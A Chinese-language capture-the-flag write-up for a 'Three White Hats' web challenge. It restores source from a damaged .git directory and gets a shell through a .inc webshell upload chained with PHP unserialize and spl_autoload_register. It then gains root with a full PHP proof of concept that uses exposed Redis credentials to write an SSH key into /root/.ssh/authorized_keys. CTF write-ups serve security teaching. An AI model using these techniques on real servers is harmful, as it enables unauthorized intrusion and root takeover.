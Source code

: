 # 《三个白帽》某题的writeup

今天这个题还是很有意思的，大家玩的也很开心，现在已经结束了。 
明天还有一波邀请码，大家注意期待~ 

### 0x01 找到源码 
目标 http://24caf446e2bb0e659.jie.sangebaimao.com/ 
首先扫描发现其包含.git目录，但访问/.git/index发现没有这个文件，可能是被破坏了。 
用lijiejie的工具无法还原，但用某些工具还是可以办到的，详见我之前的文章：https://www.leavesongs.com/PENETRATION/XDCTF-2015-WEB2-WRITEUP.html 
就不再赘述，用某工具直接还原源码： 
![](writeup/media/14473473015457/14473474164234.jpg)￼

### 0x02 getshell 
首先通读源码，发现有几个特点： 

> 1.  可以上传任意文件，后缀有黑名单检查，文件名是随机字符串md5值 
> 2.  数据存储于cookie中，通过php反序列化函数还原并显示 

其实考察点比较有意思。 
看到common.inc.php里，包含spl_autoload_register函数，这个函数是自动注册类用的，在当今特别是新型的框架（laravel、composer）中常用。 
这个函数有个特点，如果不指定处理用的函数，就会自动包含“类名.php”或“类名.inc”的文件，并加载其中的“类名”类。 
这就比较有意思了，我们之前的黑名单是不包括“.inc”文件的，所以我们可以按照下面方法进行getshell： 

1.上传webshell，后缀为.inc，被重命名为xxxx.inc 
![](writeup/media/14473473015457/14473473771270.jpg)￼

2.序列化一个类名为xxxx的类对象 
![](writeup/media/14473473015457/14473474301488.jpg)￼

3.将序列化以后的字符串作为cookie，发送到服务器上 
![](writeup/media/14473473015457/14473474412419.jpg)￼

4.服务器反序列化这个字符串后，将会自动加载xxxx类，由于之前spl_autoload_register函数注册的方法，会自动加载xxxx.inc，从而造成文件包含漏洞，getshell成功 
![](writeup/media/14473473015457/14473474514500.jpg)￼

在网站根目录的flag-1.php中获得第一个flag。 


### 0x03 利用本地redis提权 
拿到webshell以后，查看一下服务器的一些敏感信息。 
比如在phpinfo里看到了，session的处理方式用的redis，并且save_path里暴露了redis的端口和密码： 
![](writeup/media/14473473015457/14473474647264.jpg)￼


于是可以利用这段时间比较火的redis写公钥文件进行提权。 
直接编写一个redis.php，用php来连接redis，执行redis写公钥的POC： 

```php
<?php 
$redis = new Redis(); 
$redis->connect('127.0.0.1', 21821); 
$redis->auth("Tat141uIyX8NKU"); 
$redis->flushall(); 
$redis->config("SET", "dir", "/root/.ssh/"); 
$redis->config("SET", "dbfilename", "authorized_keys"); 
$redis->set("0", "\n\n\nssh-rsa key_pub\n\n\n"); 
$redis->save();
```

连接其ssh端口，直接获取root权限。 
读取/root/flag-2.txt获得第二个flag。

